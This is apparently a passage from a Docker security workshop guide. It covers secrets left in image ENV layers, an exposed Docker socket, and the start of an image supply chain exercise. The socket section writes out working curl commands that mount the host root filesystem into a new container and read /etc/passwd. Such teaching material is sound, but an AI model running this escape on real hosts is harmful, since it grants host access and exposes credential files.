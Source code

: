 Why is the number of layers different? Can we find dev.env again?

    docker build -t tool3 -f Dockerfile-3 .
    docker run --rm tool3

ENV does not create an image layer. Is it now forgotten?

    docker history tool3

How about providing a secret ENV variable not at the build time, but at the run time?

    docker run --name tool4 -e DB_PASSWORD=runtime_API_key -d alpine sleep 300
    docker exec -it tool4 env
    docker inspect tool4 | grep PASS

## 5. Shared Docker API 

    docker run --rm -ti -v /var/run/docker.sock:/var/run/docker.sock alpine
    apk add curl
    curl --unix-socket /var/run/docker.sock http://x/containers/json

Thats shows the container you are running in.

Create a new container from inside the current one

    curl --unix-socket /var/run/docker.sock -H "Content-Type: application/json" \
        -d '{"Image": "alpine","Volumes": {"/hostos/": {}},"Cmd":["sleep","300"], "HostConfig": {"Binds": ["/:/hostos"]}}' http://x/containers/create?name=rooter

Start it

    curl --unix-socket /var/run/docker.sock -XPOST http://x/containers/rooter/start

Read host passwords

    curl --unix-socket /var/run/docker.sock -H 'Content-Type: application/json' \
     -d '{"AttachStdin": true,"AttachStdout": true,"AttachStderr": true,"Cmd": ["cat", "/hostos/etc/passwd"],"DetachKeys": "ctrl-p,ctrl-q","Privileged": true,"Tty": true}' http://x/containers/rooter/exec

Grab the ID and use it in this command

    curl --unix-socket /var/run/docker.sock  -H 'Content-Type: application/json' -XPOST --data-binary '{"Detach": false,"Tty": false}' http://x/exec/<exec ID here>/start --output - 

## 6. Image supply chain

Start a local registry server

    docker run --name registry -d -p 5000:5000 registry:2

There is a base container that your own container starts from, with some base tooling in it

    cd 4
    docker build -t localhost:5000/toolbase:1.0 -f Dockerfile_base .
    docker push localhost:5000/toolbase:1.0
    docker build -t localhost:5000/awesometool:1.1  .
    docker push localhost:5000/awesometool:1.1

You run your container
